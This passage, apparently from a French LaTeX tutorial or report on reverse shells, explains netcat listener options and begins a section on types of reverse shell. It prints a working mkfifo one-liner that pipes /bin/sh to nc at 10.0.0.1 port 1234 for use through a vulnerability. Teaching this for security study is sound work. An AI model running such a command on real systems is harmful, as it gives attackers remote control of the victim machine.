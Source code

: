 Comme on peut le voir ci-dessus, Netcat peut être noté ‘nc’. Avec les options associées à Netcat, on s’aperçoit que le programme écoute de la part de tout le monde sur le port 5555.
Regardons ces options de plus près :\\
1) ‘ -l ‘ pour listen, est l’option de nc permettant d’activer le mode écoute.\\
2) ‘-v ‘ ou ‘-vv’ est le mode verbose. Cela signifie qu’il va afficher toutes les informations de retour telles que : “listening on [any] 5555 . . . “\\
3) ‘-p’ est l’option d’ouverture de ports.\\
Une fois cette commande lancée, nous pourrons laisser de côté ‘ nc -l ’ et nous focaliser sur l’ouverture du reverse-shell sur la machine cible.\\
En cas d'échec de connexion, il se pourrait que la cible n'ait pas la bonne version de Netcat. Il est possible de contourner le problème en réalisant la commande suivante dans la faille :
\begin{center}
    \textbf{rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>\&1|nc 10.0.0.1 1234 >/tmp/f}
\end{center}
Comme nous l’avons vu précédemment, il faut avoir trouvé une faille pour mettre en place un reverse-shell. Il existe donc des reverse-shell qui seront plus faciles à ouvrir dans certaines situations que d’autres. Netcat fait partie, comme nous l’avons vu plus tôt, des reverse-shell car il peut créer un socket en envoyant le shell à un utilisateur distant. C’est pourquoi nous allons nous intéresser aux différents types de reverse-shell.

\subsubsection{Différents types de reverse-shell}

 \textbf{Netcat-reverse}\\

Imaginons qu’une faille nous permet d’utiliser un ‘ echo ‘ dans le terminal cible, nous pourrons alors appliquer netcat en ouverture de port comme ci-dessous :\\

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/reverse_netcat.PNG}
  \caption{Reverse Netcat en localhost}
  \label{fig:courbe-tikz}
\end{figure}

